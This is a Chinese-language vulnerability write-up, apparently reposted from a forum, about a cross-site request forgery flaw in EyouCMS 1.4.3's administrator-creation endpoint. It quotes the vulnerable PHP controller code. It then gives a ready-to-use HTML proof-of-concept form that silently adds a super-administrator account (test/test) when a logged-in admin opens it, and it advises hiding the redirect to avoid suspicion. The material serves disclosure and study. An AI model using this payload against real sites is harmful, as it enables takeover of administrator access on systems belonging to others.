



# Eyoucms 1.4.3 csrf漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2926](https://www.zhihuifly.com/t/topic/2926)

# Eyoucms 1.4.3 csrf漏洞

## 一、漏洞简介

可通过csrf漏洞添加管理员

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

```
 public function admin_add()
 {
     $this->language_access(); // 多语言功能操作权限

```
 if (IS_POST) {
     $data = input('post.');

     if (0 &lt; intval(session('admin_info.role_id'))) {
         $this-&gt;error("超级管理员才能操作！");
     }

     if (empty($data['password']) || empty($data['password2'])) {
         $this-&gt;error("密码不能为空！");
     }else if ($data['password'] != $data['password2']) {
         $this-&gt;error("两次密码输入不一致！");
     }

     ...

     if (empty($data['pen_name'])) {
         $data['pen_name'] = $data['user_name'];
     }
     if (M('admin')-&gt;where("user_name", $data['user_name'])-&gt;count()) {
         $this-&gt;error("此用户名已被注册，请更换",url('Admin/admin_add'));
     } else {
         $admin_id = M('admin')-&gt;insertGetId($data);
         if ($admin_id) {
             adminLog('新增管理员：'.$data['user_name']);

             /*同步追加一个后台管理员到会员用户表*/
             try {
                 $usersInfo = Db::name('users')-&gt;field('users_id')-&gt;where([
                         'username'  =&gt; $data['user_name'],
                         'lang'      =&gt; $this-&gt;admin_lang,
                     ])-&gt;find();
                 if (!empty($usersInfo)) {
                     $r = Db::name('users')-&gt;where(['users_id'=&gt;$usersInfo['users_id']])-&gt;update([
                             'nickname'      =&gt; $data['user_name'],
                             'admin_id'      =&gt; $admin_id,
                             'is_activation' =&gt; 1,
                             'is_lock'       =&gt; 0,
                             'is_del'        =&gt; 0,
                             'update_time'   =&gt; getTime(),
                         ]);
                     !empty($r) &amp;&amp; $users_id = $usersInfo['users_id'];
                 } else {
                     // 获取要添加的用户名
                     ...

                     $users_id = Db::name('users')-&gt;insertGetId($AddData);
                 }
                 if (!empty($users_id)) {
                     Db::name('admin')-&gt;where(['admin_id'=&gt;$admin_id])-&gt;update([
                             'syn_users_id'  =&gt; $users_id,
                             'update_time'   =&gt; getTime(),
                         ]);
                 }
             } catch (\Exception $e) {}
             /* END */

             $this-&gt;success("操作成功", url('Admin/index'));
         } else {
             $this-&gt;error("操作失败");
         }
     }
 } 
``` 
```

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项>管理员>新增管理员点击之后截包



### poc

```
 <html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
 <script>history.pushState('', '', '/')</script>
     <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
     <input type="hidden" name="user&#95;name" value="test" />
     <input type="hidden" name="password" value="test" />
     <input type="hidden" name="password2" value="test" />
     <input type="hidden" name="pen&#95;name" value="" />
     <input type="hidden" name="true&#95;name" value="" />
     <input type="hidden" name="mobile" value="" />
     <input type="hidden" name="role&#95;id" value="&#45;1" />
     <input type="submit" value="Submit request" />
     </form>
 </body>
 </html> 
```

模拟管理员点击



添加完成

